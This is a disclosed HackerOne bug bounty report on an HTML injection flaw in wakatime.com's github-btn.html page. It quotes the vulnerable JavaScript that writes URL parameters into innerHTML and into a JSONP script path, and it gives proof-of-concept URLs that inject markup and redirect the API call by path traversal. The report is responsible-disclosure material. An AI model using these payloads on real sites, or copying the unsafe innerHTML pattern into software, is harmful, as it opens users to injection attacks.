 # [wakatime.com] HTML Injection github-btn.html

## Report Details
- **Report ID**: 248588
- **URL**: https://hackerone.com/reports/248588
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-07-12T08:13:29.162Z
- **Disclosed**: 2018-10-19T15:13:45.890Z

## Reporter
- **Username**: bobrov
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wakatime

## Vulnerability Information
Description
===
**Vulnerable parameter:** user
**Vulnerable script:** https://wakatime.com/static/html/github-btn.html
**Vulnerable code:**
```js
  var params = function () {
    var vars = [], hash;
    var hashes = window.location.href.slice(window.location.href.indexOf("?") + 1).split("&");
    for(var i = 0; i < hashes.length; i++) {
      hash = hashes[i].split('=');
      vars.push(hash[0]);
      vars[hash[0]] = hash[1];
    }
    return vars;
  }()
  var user = params.user,
      repo = params.repo,
      type = params.type,
 ...
  } else if (type == "follow") {
    mainButton.className += " github-me";
    text.innerHTML = "Follow @" + user;
```
PoCs
===

**PoC #1**
HTML Injection for Chrome, Internet Explorer

```
https://wakatime.com/static/html/github-btn.html#&user=<h1><marquee>HTML<br>HTML<br>HTML<br>HTML<br>HTML<br>HTML<br>&type=follow
```

**PoC #2**
Using this script it is also possible to use DOM Based XSS in Internet Explorer, as I did in these reports #200753 #200826
But since the `X-Frame-Options: SAMEORIGIN` header is used for all HTTP responses, this could not be done in this case.

Another vulns
===

Also, this script has potential vulnerabilities using user controlled parameters in the path to the JS script.
But for the exploitation it requires additional vulnerability on api.github.com (for example, Open Redirect or user controlled output).

```js
  function jsonp(path) {
    var el = document.createElement('script');
    el.src = path + '?callback=callback';
    head.insertBefore(el, head.firstChild);
  }
...
  if (type == 'follow') {
    jsonp('https://api.github.com/users/' + user);
  } else {
    jsonp('https://api.github.com/repos/' + user + '/' + repo);
  }
```
**PoC**
```
https://wakatime.com/static/html/github-btn.html?#&user=../../another/endpoint&repo=../../another/endpoint&type=fork
```
**Result**
```
https://api.github.com/another/endpoint?callback=callback
```

## Attachments
No attachments
